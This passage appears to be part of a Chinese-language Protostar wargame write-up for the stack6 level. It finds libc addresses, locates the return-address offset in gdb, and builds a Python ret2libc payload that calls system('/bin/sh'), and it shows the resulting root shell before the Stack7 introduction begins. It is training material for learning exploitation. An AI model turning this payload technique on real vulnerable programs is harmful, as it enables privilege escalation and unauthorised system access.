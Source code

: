 通过上面的地址映射，我们就可以算出来字符串`“/bin/sh”`的地址，`0xb7e97000 + 1176511`。

```shell
user@protostar:~$ strings -t d /lib/libc.so.6 | grep /bin/sh
1176511 /bin/sh
```

接下来**找返回地址的位置**，我们在`ret`指令处下个断点，然后查看栈顶元素，发现是`0x55555555`，也就是**UUUU的位置**就是我们要填入返回地址的位置。

```javascript
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
0x80484f9 <getpath+117>:	ret
0xbffff76c:	0x55555555	0x56565656	0x57575757	0x58585858
0xbffff77c:	0x59595959	0x5a5a5a5a	0xbffff800	0xbffff82c

Breakpoint 4, 0x080484f9 in getpath () at stack6/stack6.c:23
23	in stack6/stack6.c
```

然后构造exp，**注意system后面要填充一个虚假的返回地址**，**调用函数的过程**是先将参数压栈，然后将返回地址压栈，最后调用函数。所以我们需要在参数“/bin/sh”的前面填一个虚假的返回地址。

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT'

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

payload = padding + system + 'AAAA'+ bin_sh

print(payload)
```



```shell
user@protostar:~$ (python stack6.py ;cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT���AAAA�c�
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```



## Stack7

### About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7
